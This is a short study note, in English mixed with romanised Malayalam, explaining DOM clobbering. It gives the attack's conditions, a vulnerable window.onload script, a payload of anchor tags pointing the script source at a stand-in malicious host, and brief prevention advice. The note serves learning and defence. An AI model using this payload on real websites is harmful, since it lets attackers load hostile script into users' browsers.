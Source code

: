 **CONDITIONS** :
1) insert html with 'id' or 'name' attributes. ie, if you have controll over html and you can inert id or name attribute then dom clobbering is possible
2) there should be a global variable or property of an object (usrally 'window').athayath aa html/script il window. something enn undakanam.eg:namal oru website il javascript code il avatar fetch chyuna code und ath window.defaultavatar enna gloabal variable il ninum fetch chyunu.so ivide global variable use chyunu.athan namuk vendath

**EXAMPLE NOKAM** :
-->window.onload ennal ath oru event hadler aan athaytah window load aakumbol athil enthano ullath ath execute aakum

            <script> 
                       window.onload = function(){
                             let someObject = window.someObject || {};
                              let script = document.createElement('script');
                               script.src = someObject.url;
                                document.body.appendChild(script); 
                        };
                </script>
-->so ivide window load aakumbol ee function execute aakunu.ivide window.someobject ile someobject aan id.
-->rand conditions meet chyan patiyale dom clobbering nadaku enna njan paranju so ivide namuk insert chyan ulla id kity ie,someobject, athupole thane namuk use chyan ulla global variablum kity ie,window.someobjectf
-->so payload : `<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>` ingane varum.
-->**REFERENCE** : https://research.securitum.com/xss-in-amp4email-dom-clobbering/
-->inspect->console il poi window. ennadichal namuk kanam windows. il enthoke unden.ithil athikavum defualt aaya eventhandlers aayirikum.athonum overwrite chyan patila.like onload , blur , onclick... but ithallathe vere undakum default allathath ath developers idunath.so athan namal overwrite chyth dom clobbering chyunath



### Prevention :
-->the most effective way to avoid DOM-based vulnerabilities is to avoid allowing data from any untrusted source to dynamically alter the value that is transmitted to any sink.
-->If the desired functionality of the application means that this behavior is unavoidable, then defenses must be implemented within the client-side code